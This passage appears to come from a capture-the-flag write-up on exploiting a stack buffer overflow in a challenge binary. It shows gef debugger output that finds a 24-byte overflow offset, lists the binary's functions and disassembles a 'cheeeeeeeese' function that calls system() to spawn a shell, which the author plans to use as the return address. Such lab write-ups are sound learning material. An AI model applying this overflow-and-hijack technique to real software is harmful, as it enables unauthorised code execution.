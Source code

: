 ```php
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  
```
Now there you can see the address of `$rsp` is replaced by variable so I took that variable and found the offset.

```php
gef➤  pattern offset daaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaaja
[+] Searching 'daaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaaja'
[+] Found at offset 24 (big-endian search) 
gef➤
```

So a `Code Sequence` accepted 24 bytes of data after that value it was overflow and gave me `SIGSEGV` error you can see in the above output.

Now my offsets combination will be 


> Name => 24 + 1( to overflow) bytes
> 
Code Sequence => 24 + (address of shell) bytes


Then my final task was to find the address of shell(/bin/bash or /bin/sh) inside the file. For that I again searched for the functions which seems interesting and then I found `cheeeeeeeese` functions and disassemble that function.

```php
gef➤  info functions
All defined functions:
Non-debugging symbols:
0x00000000004005a0  _init
0x00000000004005d0  strcpy@plt
0x00000000004005e0  puts@plt
0x00000000004005f0  system@plt
0x0000000000400600  printf@plt
0x0000000000400610  read@plt
0x0000000000400620  setvbuf@plt
0x0000000000400630  _start
0x0000000000400660  `_dl_relocate_static_pie`
0x0000000000400670  `deregister_tm_clones`
0x00000000004006a0  `register_tm_clones`
0x00000000004006e0  `__do_global_dtors_aux`
0x0000000000400710  `frame_dummy`
0x0000000000400717  cheeeeeeeese
0x000000000040072a  init
0x000000000040078b  `set_mouse_name`
0x00000000004007c1  `grab_cheese`
0x00000000004007e3  `deactivate_trap`
0x0000000000400823  menu
0x0000000000400842  main
0x00000000004008c0  `__libc_csu_init`
0x0000000000400930  `__libc_csu_fini`
0x0000000000400934  `_fini`
gef➤  disass 0x0000000000400717
Dump of assembler code for function cheeeeeeeese:
   0x0000000000400717 <+0>:	push   rbp
   0x0000000000400718 <+1>:	mov    rbp,rsp
   0x000000000040071b <+4>:	lea    rdi,[rip+0x226]        # 0x400948
   0x0000000000400722 <+11>:	call   0x4005f0 <system@plt>
   0x0000000000400727 <+16>:	nop
   0x0000000000400728 <+17>:	pop    rbp
   0x0000000000400729 <+18>:	ret    
End of assembler dump
```
